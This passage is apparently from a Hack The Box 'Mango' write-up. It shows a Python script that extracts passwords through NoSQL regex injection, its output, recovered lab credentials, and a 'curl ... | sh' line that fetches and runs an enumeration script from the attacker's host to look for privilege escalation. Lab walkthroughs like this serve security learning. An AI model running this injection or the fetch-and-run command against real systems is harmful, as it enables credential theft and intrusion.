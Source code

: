 ```python
while True:
    print(p)
    for x in chars:
        data = {
            "username": "admin",
            "password[$regex]": f"^{re.escape(p+x)}.*$",
            "login": "login"
        }
        r = requests.post(url, data=data, proxies={"http":"127.0.0.1:8080"}, allow_redirects=False)
        if r.status_code == 302:
            p += x
            break
```

```
root@kali:~/htb/mango# ./mango.py 
Charset abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789!"#$%&'()*+,-./:;<=>?@[\]^_`{|}~

t
t9
t9K
t9Kc
t9KcS
t9KcS3
t9KcS3>
t9KcS3>!
t9KcS3>!0
t9KcS3>!0B
t9KcS3>!0B#
t9KcS3>!0B#2
t9KcS3>!0B#2
```

I just replace `admin` by `mango` and run it again. I got the following passwords now:

admin: `t9KcS3>!0B#2`
mango: `h3mXK8RhU~f{]f5H`

## Getting a shell as user admin

I can SSH to the machine and su to `admin` since I also have the password for that user:

![](/assets/images/htb-writeup-mango/shell1.png)

## Privesc using jjs

With [LinEnum.sh](https://github.com/rebootuser/LinEnum) I see there's a SUID file for `jjs`:

```
admin@mango:/home/admin$ curl 10.10.14.11/LinEnum.sh | sh
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 46108  100 46108    0     0   229k      0 --:--:-- --:--:-- --:--:--  228k
-e 
#########################################################
-e # Local Linux Enumeration & Privilege Escalation Script #
-e #########################################################
-e # www.rebootuser.com
-e # version 0.98
[...]
-e [+] Possibly interesting SUID files:
-rwsr-sr-- 1 root admin 10352 Jul 18 18:21 /usr/lib/jvm/java-11-openjdk-amd64/bin/jjs
-e 
```